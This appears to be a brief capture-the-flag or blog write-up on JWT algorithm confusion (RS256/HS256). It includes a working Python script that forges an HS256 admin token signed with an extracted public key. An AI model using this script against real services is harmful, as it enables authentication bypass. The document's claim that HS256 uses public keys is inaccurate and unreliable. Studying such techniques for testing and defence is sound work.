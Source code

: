 ```yaml
---
title: JWT Confusion
date: 2024-07-14
categories: [Payload]
tags: [Write up]
---
```


## Refer

[Portswigger Document](https://portswigger.net/web-security/jwt/algorithm-confusion#deriving-public-keys-from-existing-tokens)  
[JWT vulnerability🩸](https://velog.io/@thelm3716/JWTvul#%F0%9F%A9%B8-exploitation-2)

## Info
This Problem is JWT confusion. 

RS256 uses an asymmetric key, a private key for generation, and a public key for verification.

HS256 uses public keys for both token creation and verification. By using the difference between the two, authentication can be bypassed by extracting the public key of RS256 and creating a token with HS256 when verifying both methods.

Key extract : https://github.com/silentsignal/rsa_sign2n/tree/release/standalone

## Exploit
After Extract key, you can sign JWT as You Want.
```python
import json
import base64
import hashlib
import hmac

key = open("./key.pem").read() # Extracted Key

headDict = {"alg": "HS256","typ": "JWT"}
paylDict = {
  "username": "admin",
  "iat": 1720866236,
  "exp": 1720953073
}

newContents = base64.urlsafe_b64encode(json.dumps(headDict,separators=(",",":")).encode()).decode('UTF-8').strip("=")+"."+base64.urlsafe_b64encode(json.dumps(paylDict,separators=(",",":")).encode()).decode('UTF-8').strip("=")
newContents = newContents.encode().decode('UTF-8')

newSig = base64.urlsafe_b64encode(hmac.new(key.encode(),newContents.encode(),hashlib.sha256).digest()).decode('UTF-8').strip("=")

print(newContents+"."+newSig)
```
**Key Example** ( Don't forget EOL )
```jsx
-----BEGIN PUBLIC KEY-----
(...)
-----END PUBLIC KEY-----

```